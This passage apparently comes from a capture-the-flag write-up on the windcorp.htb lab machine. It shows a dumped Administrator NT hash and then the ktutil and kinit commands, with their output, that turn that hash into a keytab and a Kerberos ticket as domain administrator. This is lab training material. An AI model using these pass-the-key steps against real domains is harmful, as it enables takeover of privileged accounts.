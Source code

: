     DistinguishedName: CN=Administrator,CN=Users,DC=windcorp,DC=htb
    Sid: S-1-5-21-3783586571-2109290616-3725730865-500
    ...[snip]...
    Owner: S-1-5-21-3783586571-2109290616-3725730865-512 
    Secrets
      NTHash: b3ff8d7532eef396a5347ed33933030f
    ...[snip]...



### Kerberos Auth

#### Using ktutil / kinit

I can also use the Linux Kerberos tools to get a ticket as well. I'll
start with `ktutil`
([docs](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/ktutil.md))
to `add_entry` and save it as a keytab file:



    oxdf@hacky$ ktutil
    ktutil:  add_entry -p administrator@WINDCORP.HTB -k 1 -key -e rc4-hmac
    Key for administrator@WINDCORP.HTB (hex): b3ff8d7532eef396a5347ed33933030f
    ktutil:  write_kt administrator.keytab
    ktutil:  exit



It's important that the domain be in all caps matching the realm in the
`/etc/krb5.conf` file.

Now I'll run `kinit`
([docs](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.md))
to get a ticket, passing it that file:



    oxdf@hacky$ kinit -V -k -t administrator.keytab -f administrator@WINDCORP.HTB
    Using default cache: /tmp/krb5cc_1000
    Using principal: administrator@WINDCORP.HTB
    Using keytab: administrator.keytab
    Authenticated to Kerberos v5



`-k -t [keytab file]` is how that's passed, and `-f` is to request
forwardable tickets.

After that, the ticket is in my local session:



    oxdf@hacky$ klist
    Ticket cache: FILE:/tmp/krb5cc_1000
    Default principal: administrator@WINDCORP.HTB

    Valid starting       Expires              Service principal
    11/10/2022 22:48:08  11/11/2022 08:48:08  krbtgt/WINDCORP.HTB@WINDCORP.HTB
            renew until 11/11/2022 22:48:07
